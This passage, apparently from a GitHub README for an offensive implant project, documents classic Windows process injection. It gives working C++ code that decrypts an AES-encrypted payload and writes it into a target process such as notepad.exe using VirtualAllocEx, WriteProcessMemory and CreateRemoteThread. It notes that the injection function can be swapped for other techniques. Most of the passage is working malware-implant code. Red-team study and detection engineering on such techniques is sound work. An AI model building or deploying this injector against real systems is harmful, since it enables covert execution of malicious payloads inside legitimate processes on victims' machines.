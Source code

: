 #### Process Injection (Classic)
In reference to Process Injection Stages 3-5 above, the following function displays a classic process injection technique calling [`VirtualAllocEx()`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to allocate executable memory into a target process (`hProc`), [`WriteProcessMemory()`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write the payload (`pRemoteCode`) into this newly allocated memory within the process (`hProc`), and [`CreateRemoteThread()`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) to execute the payload (`pRemoteCode`).

When altering the process injection technique utilized by an implant, this function should be swapped out for the updated technique.

```c++
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

	LPVOID pRemoteCode = NULL;
	HANDLE hThread = NULL;

	// Decrypt payload
	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
	
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
	
	hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, 0, NULL);
	if (hThread != NULL) {
			WaitForSingleObject(hThread, 500);
			CloseHandle(hThread);
			return 0;
	}
	return -1;
}
```


#### Payload Writing & Execution
In `main()`, the custom process targeting function `FindTarget()` is given a process name (ex. `notepad.exe`) to retrieve the Process ID (PID) of. If successful, the PID used as an argument to `OpenProcess()`, which fulfills Process Injection Stage 2 defined above, a handle to the target process (`hProc`) in generated. The `Inject()` function then takes this handle (`hProc`) and performs the literal injection technique.

```c++
int main(void) {
    
	int pid = 0;
    	HANDLE hProc = NULL;

	pid = FindTarget("notepad.exe");

	if (pid) {
	
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);

		if (hProc != NULL) {
			// This function name below may be substituted for a different injection technique
			Inject(hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
}
```